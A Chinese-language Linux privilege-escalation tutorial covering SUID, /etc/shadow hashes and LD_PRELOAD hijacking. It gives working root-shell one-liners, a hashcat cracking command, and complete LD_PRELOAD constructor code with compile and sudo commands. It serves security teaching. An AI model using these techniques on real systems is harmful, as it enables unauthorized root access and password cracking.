


# Linux权限与内核核心：SUID提权原理、Shadow哈希与LD_PRELOAD劫持

---

## 0. 拒绝教科书废话：Linux 安全的唯一核心是 UID

> [!NOTE] 模块前置语言与工具清单
> - **前置通关必备**：零基础读者强烈建议先通读全局导航 **[[01-零基础入门前置指南与黑话工具字典]]**，掌握安全法律红线、终端命令行、HTTP 报文骨架与黑话字典！
> - **环境依赖**：具备基础 Web 浏览器（Chrome/Firefox）抓包认知或轻量 Python 脚本执行能力。


高校教材讲操作系统安全，经常花大篇幅讲 DAC（自主访问控制）、MAC（强制访问控制）、安全模型数学证明。
但在黑客和攻防实战中，Linux 操作系统底层的安全逻辑其实极度简单、粗暴且纯粹：
> **“在内核眼里，你叫什么名字（root, admin, guest）毫无意义，内核只认一个数字——用户标识符（User ID, UID）！”**

- **UID = 0**：**系统的造物主（上帝模式）**。只要进程的有效用户 ID（EUID）是 0，任何文件权限限制、端口绑定限制、内核调试保护统统放行。
- **UID >= 1000**：**平民百姓（普通用户）**。做任何越界的事情都会被内核无情拒绝并抛出 `Permission denied`。
- **黑客提权（Privilege Escalation）的唯一物理本质**：
  $$\text{通过任何合法或非法的技术手段，将当前进程的有效 UID 从 } \ge 1000 \text{ 变成 } 0\text{！}$$



---

## 1. 权限三剑客与八进制数学原理：彻底丢掉死记硬背

很多新手看到 `chmod 755`、`chmod 644`、`chmod 777` 就开始死记。其实这根本不是神秘代码，而是纯粹的 **3 位二进制位权运算**！

### 1.1 权限位与二进制对应关系
Linux 给每一个文件分配了三组对象权限：**所有者（Owner）**、**用户组（Group）**、**其他人（Others）**。
每一组对象拥有 3 个基础开关：**读（Read, r）**、**写（Write, w）**、**执行（Execute, x）**。

这 3 个字母，本质上就是 3 位二进制开关（1 代表有权限，0 代表无权限）：

| 权限字符 | 二进制位权 | 十进制数值 | 物理含义 |
| :---: | :---: | :---: | :--- |
| **`r` (Read)** | $2^2 = 4$ | **`4`** | 允许读取文件内容 / 列出目录下的文件 |
| **`w` (Write)** | $2^1 = 2$ | **`2`** | 允许修改文件内容 / 在目录下创建删除文件 |
| **`x` (eXecute)** | $2^0 = 1$ | **`1`** | 允许将文件作为程序执行 / 允许 `cd` 进入目录 |

#### 快速心算口诀：
- 只要想给 `r + w + x`（全部权限）$\to$ $4 + 2 + 1 = \mathbf{7}$（二进制 `111`）；
- 只要想给 `r + x`（可读可执行）$\to$ $4 + 1 = \mathbf{5}$（二进制 `101`）；
- 只要想给 `r + w`（可读可写不可执行）$\to$ $4 + 2 = \mathbf{6}$（二进制 `110`）。

因此：
- **`755`** 就是：所有者拥有全部权限（`7`），组和其他人只能读和执行（`55`） $\to$ 字符形态为 **`rwxr-xr-x`**；
- **`644`** 就是：所有者可读可写（`6`），其他人只读（`44`） $\to$ 字符形态为 **`rw-r--r--`**。

---

## 2. SUID 特权穿透本质：借戴“尚方宝剑”实现直接提权

这是 Linux 权限体系中最具戏剧性、也是黑客最喜欢的特性。

### 2.1 为什么 Linux 必须发明 SUID？
想象一个生活中的真实场景：
- Linux 中所有用户的加密密码都保存在 `/etc/shadow` 文件里；
- 为了安全，`/etc/shadow` 权限通常被设为 `000` 或 `640`（**只有 root 用户才有权写入**）；
- 但是，任何一个普通用户（如 `jack`）平时都必须能够修改自己的密码（运行 `passwd` 命令）；
- **矛盾产生**：`jack` 执行 `passwd` 时，由于他不是 root，按常理系统应该拒绝他修改 `/etc/shadow`！
- **Linux 的解决方案：SUID（Set-User-ID，特派员尚方宝剑）**：
  操作系统允许管理员给某个可执行文件打上一个特殊的标记（`chmod u+s /usr/bin/passwd`）。
  **规则生效**：无论当前是哪个低权限普通用户运行了这个程序，**在程序运行的这几个瞬间，该进程直接以“文件所有者（root）”的身份运行！**

### 2.2 SUID 权限标志特征
在终端中执行 `ls -l /usr/bin/passwd`，你会看到：
`-rwsr-xr-x 1 root root 68208 May 28 2024 /usr/bin/passwd`
原本属于所有者的执行位 `x`，变成了小写字母 **`s`**！这就代表该程序被授予了 SUID 尚方宝剑！

---

### 2.3 黑客实战：地毯式检索与 GTFOBins 提权全书

攻击者拿到低权限 WebShell 后，第一条必敲的提权命令就是**全盘搜索所有带 SUID 标记的文件**：

```bash
# 核心提权探测命令 (将报错 2>/dev/null 丢入黑洞)
find / -perm -u=s -type f 2>/dev/null
```

#### 常见高危 SUID 二进制文件提权利用矩阵（GTFOBins 精选）：

| 命中 SUID 二进制名 | 为什么极其危险？ | 提权单行命令（直接获取 Root Shell） |
| :--- | :--- | :--- |
| **`find`** | 自带 `-exec` 参数，能以自身特权派生执行任意子命令 | `find . -exec /bin/sh -p \; -quit` |
| **`bash` / `sh`** | 解释器自身被赋予了 SUID | `bash -p`（`-p` 参数代表保留特权，直接进入 root shell！） |
| **`vim` / `vi`** | 编辑器内置了执行系统 Shell 的功能 | `vim -c ':!/bin/sh -p'` |
| **`env`** | 环境变量运行器 | `env /bin/sh -p` |
| **`cp`** | 能够以 root 权限覆盖系统的任何核心配置文件 | 将恶意构造的密码行直接覆写进 `/etc/passwd`！ |
| **`base64`** | 能以 root 权限读取任意文件 | `base64 /etc/shadow \| base64 -d` |

---

## 3. 密码暗网数据库：`/etc/passwd` 与 `/etc/shadow` 底层解密

### 3.1 为什么密码不在 `/etc/passwd` 里？（一段黑客进化史）
- **远古时代（1970~1980年代）**：
  早期 Unix 系统中，用户的加密密码就是直接写在 `/etc/passwd` 的第二列的。
  但因为系统很多日常软件（如 `ls -l` 显示用户名）必须读取 `/etc/passwd`，导致该文件必须对全网所有用户**开放只读权限（644）**；
  攻击者只要把 `/etc/passwd` 下载下来，在本地用彩虹表或字典暴力比对，全公司所有密码几分钟内全部被破解！
- **现代影子文件机制（Shadow File）**：
  为了解决这个问题，操作系统做了一个简单而精妙的手术：
  - `/etc/passwd` 继续保持所有人可读，但把第二列真实的密码哈希**扣掉，替换成一个字符 `x`**！
  - 真正的高危密码哈希，被秘密转移到了只有 root 才有权读取的 **`/etc/shadow`（影子文件）** 中！

---

### 3.2 `/etc/shadow` 密文字段逐字解密

打开 `/etc/shadow`，你会看到类似如下的一行：
```text
root:$6$vNQ4Z7x8$L8K...sH1:19800:0:99999:7:::
```
其中的密码字段用两个冒号包裹，内部又被两个 `$` 分割成了三部分：
$$\mathbf{\$6\$} \quad \mathbf{vNQ4Z7x8\$} \quad \mathbf{L8K...sH1}$$

1. **`$6$` —— 加密算法标识符**：
   - `$1$` 代表老旧弱加密 **MD5**（极易被秒级破解）；
   - `$5$` 代表 **SHA-256**；
   - **`$6$`** 代表目前主流的强加密 **SHA-512**。
2. **`vNQ4Z7x8` —— 随机盐值（Salt）**：
   - 操作系统在用户设置密码时随机生成的 8 字节噪点字符串；
   - **盐值的毁灭性防御效果**：就算两个用户的密码一模一样（比如都是 `123456`），只要随机盐值不同，计算出的最终哈希就完全风马牛不相及！彻底废除了攻击者事先算好的“离线彩虹表”！
3. **`L8K...sH1` —— 经过数千轮哈希运算后的最终密文摘要**。

#### 破解实战（Hashcat 针对 `$6$` SHA-512 破解模式 1800）：
```bash
hashcat -m 1800 -a 0 shadow_hash.txt /usr/share/wordlists/rockyou.txt
```

---

## 4. 动态链接库劫持核弹：`LD_PRELOAD` 底层原理

在 Linux 进程启动时，如果它依赖系统动态链接库（比如调用了 C 标准库的 `puts()`, `getuid()`, `fopen()`），操作系统会调用动态链接加载器（`ld-linux.so`）到 `/lib` 和 `/usr/lib` 去寻找对应的 `.so` 文件。

### 4.1 `LD_PRELOAD` 的黑魔法机制
Linux 环境变量中提供了一个极其霸道的后门开关——**`LD_PRELOAD`**：
> **如果设置了 `LD_PRELOAD=/path/to/evil.so`，系统在加载任何标准共享库之前，必须强制最先加载攻击者指定的这个 `evil.so`！**

如果攻击者在 `evil.so` 里自己写了一个同名函数（例如自己写了一个名为 `getuid()` 的函数），根据**先入为主**原则：
**进程后续所有调用 `getuid()` 的地方，都会直接跳进攻击者的代码里执行！**



---

### 4.2 经典提权攻击复现（`sudo` 配置了 `env_keep += LD_PRELOAD`）

当你在终端输入 `sudo -l` 检查特权时，如果看到输出中包含：
`Matching Defaults entries for user on this host: env_keep += LD_PRELOAD`
**恭喜你，这台机器已经 100% 沦陷！**

#### 步骤 1：本地编写劫持 C 源码（`hook.c`）
```c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

// __attribute__((constructor)) 代表当该共享库被加载到内存瞬间，自动优先执行此函数!
__attribute__((constructor)) void init() {
    // 抹除 LD_PRELOAD 防止死循环
    unsetenv("LD_PRELOAD");
    // 将真实 UID 和有效 EUID 全部设为 0 (最高 root)
    setuid(0);
    setgid(0);
    // 派生 root shell!
    system("/bin/bash -p");
}
```

#### 步骤 2：编译为动态链接库
```bash
gcc -shared -fPIC hook.c -o /tmp/hook.so
```

#### 步骤 3：一键提权
利用用户任意一个可以执行的 `sudo` 命令（哪怕只是运行一个查看日志的微小命令）：
```bash
sudo LD_PRELOAD=/tmp/hook.so /usr/bin/find
```
命令启动的瞬间，`hook.so` 被强制优先注入内存，构造函数直接把有效 UID 改写为 0 并派生 Bash，屏幕上赫然出现：
`root@target-machine:~#`！直接登顶最高管理员！

---

## 5. 总结速查表

| 核心攻防要素 | 底层机制 | 黑客利用场景 / 提权手法 |
| :--- | :--- | :--- |
| **UID 0** | 内核特权唯一通行证 | 提权的终极目标，把当前进程有效 UID 改写为 0。 |
| **SUID 权限位** | 执行时临时继承文件所有者身份 | `find / -perm -u=s`，利用 GTFOBins（find, bash -p）借刀杀人。 |
| **`/etc/shadow`** | 仅 root 可读的加盐哈希文件 | 提取 `$6$` 开头的 SHA-512 哈希，离线使用 Hashcat 字典爆破。 |
| **`LD_PRELOAD`** | 动态链接器最高优先级预加载 | 编写恶意 `.so` 覆盖底层函数，结合 `sudo env_keep` 瞬间秒杀 Root。 |
